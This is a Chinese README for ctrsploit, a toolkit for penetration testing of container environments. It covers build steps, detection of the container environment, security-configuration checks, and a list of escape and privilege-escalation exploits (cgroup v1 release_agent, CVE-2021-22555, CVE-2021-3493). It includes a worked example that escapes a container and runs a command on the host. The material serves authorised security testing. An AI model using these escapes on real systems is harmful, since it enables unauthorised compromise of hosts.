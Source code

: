 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

ctrsploit 读作container sploit

## 为什么我们需要ctrsploit

[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## 手动编译

### 容器编译

```bash
export APT_MIRROR=repo.huaweicloud.com
export GOPROXY=https://goproxy.cn,https://goproxy.io,direct
make binary && ls -lah bin/release
```

### 本地编译

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s 
```

### 漏洞利用

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### 安全检查

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## 详细信息

### env

| 子命令                              | 简写    | 描述                         |
|----------------------------------|-------|----------------------------|
| [auto](./env/auto)               |       | 自动收集环境信息                   |
| [where](./env/where)             | w     | 检测你是否在容器内，在何种类型的容器内        |
| [graphdriver](./env/graphdriver) | g     | 检测graphdriver类型和扩展信息       |
| [cgroups](./env/cgroups)         | c     | 收集cgroup信息                 |
| [capability](./env/capability)   | cap   | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp)         | s     | 显示seccomp信息                |
| [apparmor](./env/apparmor)       | a     | 显示apparmor信息               |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns |

### exploit

| exploit                                                                                  | 缩写    | 简述                                                     |
|------------------------------------------------------------------------------------------|-------|--------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | 利用cgroup v1的notify_on_release功能的逃逸技术                   |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | 利用CVE-2021-22555的逃逸技术 (ubuntu18.04)                    |

### helper

| helper                                  | 缩写                       | description           |
|-----------------------------------------|--------------------------|-----------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS 本地提权 |

### checksec

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`